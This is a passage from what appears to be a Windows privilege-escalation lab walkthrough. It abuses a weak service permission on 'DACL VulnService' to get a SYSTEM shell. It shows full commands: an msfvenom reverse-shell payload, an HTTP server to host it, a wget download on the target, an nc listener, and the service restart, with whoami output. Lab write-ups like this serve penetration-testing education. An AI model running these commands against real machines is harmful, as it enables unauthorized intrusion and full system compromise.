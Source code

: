> Note: In the real-world we would use an implant instead.

Generate a reverse shell payload and set up a `http` service:

```shell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.27.128 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

❯ sudo python3 -m http.server
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.27.129 - - [14/Mar/2022 06:52:21] "GET /reverse.exe HTTP/1.1" 200 -
```

Transfer the payload:

```powershell
PS C:\Tools> wget 192.168.27.128:8000/reverse.exe -O reverse.exe
```

Then in the attacker host, we'll set up a `nc` listener:

```shell
nc -lvnp 443
```

Now we're gonna restart the service:

```powershell
C:\Users\user>net stop "DACL VulnService"
The DACL VulnService service is stopping.
The DACL VulnService service was stopped successfully.


C:\Users\user>net start "DACL VulnService"

# THIS WILL HANG
```

We have received a reverse shell as `NT AUTHORITY\SYSTEM` with `System Integrity Level`:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.27.128] from (UNKNOWN) [192.168.27.129] 50645
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
```